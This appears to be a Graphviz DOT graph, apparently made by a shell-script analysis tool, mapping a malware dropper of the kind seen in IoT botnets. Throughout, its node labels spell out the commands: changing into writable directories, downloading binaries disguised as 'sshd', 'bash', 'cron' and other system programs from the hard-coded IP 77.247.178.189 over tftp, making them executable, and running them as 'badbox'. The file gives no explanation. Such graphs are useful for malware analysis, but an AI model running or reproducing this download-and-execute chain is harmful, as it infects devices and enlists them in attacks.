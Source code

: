 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 14 [label="||,"];
14 [label="tftp -r ntpd -g 77.247.178.189 "];
14 -> 16 [label=";,"];
16 [label="cat ntpd badbox "];
16 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 34 [label="||,"];
34 [label="tftp -r sshd -g 77.247.178.189 "];
34 -> 36 [label=";,"];
36 [label="cat sshd badbox "];
36 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 54 [label="||,"];
54 [label="tftp -r openssh -g 77.247.178.189 "];
54 -> 56 [label=";,"];
56 [label="cat openssh badbox "];
56 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 74 [label="||,"];
74 [label="tftp -r bash -g 77.247.178.189 "];
74 -> 76 [label=";,"];
76 [label="cat bash badbox "];
76 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 94 [label="||,"];
94 [label="tftp -r tftp -g 77.247.178.189 "];
94 -> 96 [label=";,"];
96 [label="cat tftp badbox "];
96 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 114 [label="||,"];
114 [label="tftp -r wget -g 77.247.178.189 "];
114 -> 116 [label=";,"];
116 [label="cat wget badbox "];
116 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 134 [label="||,"];
134 [label="tftp -r cron -g 77.247.178.189 "];
134 -> 136 [label=";,"];
136 [label="cat cron badbox "];
136 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 154 [label="||,"];
154 [label="tftp -r ftp -g 77.247.178.189 "];
154 -> 156 [label=";,"];
156 [label="cat ftp badbox "];
156 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 174 [label="||,"];
174 [label="tftp -r pftp -g 77.247.178.189 "];
174 -> 176 [label=";,"];
176 [label="cat pftp badbox "];
176 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
201 [label="./badbox "];
201 -> 184 [label=";,"];
184 [label="cd /tmp "];
184 -> 184
186 [label="cd /var/run "];
186 -> 188 [label="||,"];
188 [label="cd /mnt "];
188 -> 190 [label="||,"];
190 [label="cd /root "];
190 -> 192 [label="||,"];
192 [label="cd / "];
192 -> 194 [label="||,"];
194 [label="tftp -r sh -g 77.247.178.189 "];
194 -> 196 [label=";,"];
196 [label="cat sh badbox "];
196 -> 198 [label=";,"];
198 [label="badbox "];
198 -> 198
200 [label="chmod +x * "];
200 -> 201 [label=";,"];
}
